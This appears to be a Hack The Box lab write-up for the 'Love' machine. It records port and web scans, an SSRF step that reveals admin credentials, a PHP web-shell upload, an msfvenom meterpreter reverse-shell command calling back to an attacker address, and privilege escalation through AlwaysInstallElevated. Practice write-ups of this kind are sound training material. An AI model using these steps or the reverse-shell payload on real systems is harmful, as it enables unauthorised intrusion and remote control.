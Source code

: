 
# ==>Enum

## Nmap Scan

```
PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
443/tcp   open     https
445/tcp   open     microsoft-ds
3306/tcp  open     mysql
5000/tcp  open     upnp
5040/tcp  open     unknown
5985/tcp  open     wsman
5986/tcp  open     wsmans
7680/tcp  open     pando-pub
47001/tcp open     winrm
49664/tcp open     unknown
49665/tcp open     unknown
49666/tcp open     unknown
49667/tcp open     unknown
49668/tcp open     unknown
49669/tcp open     unknown
49670/tcp open     unknown
55683/tcp filtered unknown
```


#### Scan with `-A`

```

80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   NCP, NULL: 
|_    Host '10.10.14.86' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=8/2%Time=6107E499%P=x86_64-pc-linux-gnu%r(NUL
SF:L,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.86'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(NCP,4A,"F\0\0
SF:\x01\xffj\x04Host\x20'10\.10\.14\.86'\x20is\x20not\x20allowed\x20to\x20
SF:connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h54m45s, deviation: 4h02m31s, median: 34m43s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-02T06:02:06-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-02T13:02:03
|_  start_date: N/A

PORT      STATE SERVICE    VERSION
5985/tcp  open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http   Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-08-02T13:09:47+00:00; +34m44s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
47001/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 34m43s


```

## Nikto Scan

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.239
+ Target Hostname:    10.10.10.239
+ Target Port:        80
+ Start Time:         2021-08-02 18:38:13 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
+ Retrieved x-powered-by header: PHP/7.3.27
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /includes/: Directory indexing found.
+ OSVDB-3092: /includes/: This might be interesting...
+ OSVDB-3093: /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-3092: /Admin/: This might be interesting...
+ 8675 requests: 2 error(s) and 15 item(s) reported on remote host
+ End Time:           2021-08-02 19:12:34 (GMT5.5) (2061 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

***

### Enumrating Sub-Domins

From the above Nmap Scap Found these Domains

- staging.love.htb

- www.love.htb

added staging.love.htb into /etc/hosts file 

Demo page have a file scan option

- LFI/RFI seems not to be working here

- Entered 127.0.0.1:5000 ; using server to read internal resources (SSRF)

And we the credentials ==> admin: @LoveIsInTheAir!!!!

***

# ==>FoothHolding

## getting a reverse shell

- The Profile page have option to upload a pic, but maybe a shell can also be uploaded

- https://github.com/artyuum/Simple-PHP-Web-Shell/blob/master/index.php  <== Used this awesome webshell ; other Reverse shells seems not to be working

- uploaded the shell and that can be accessed `/images/` which was found during **`Dir Fuzzing`**

- Rev-Shell ==> msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.86 LPORT=4242 -f exe -o rev.exe

- uploaded rev.exe and executed it using `WEB-Shell` 

***

# ==>Prev Esc

- Uploaded winPeas64.exe

- From The WinPease Scan , determined `exploit/windows/local/always_install_elevated` <== Metasploit module can be used

- https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated

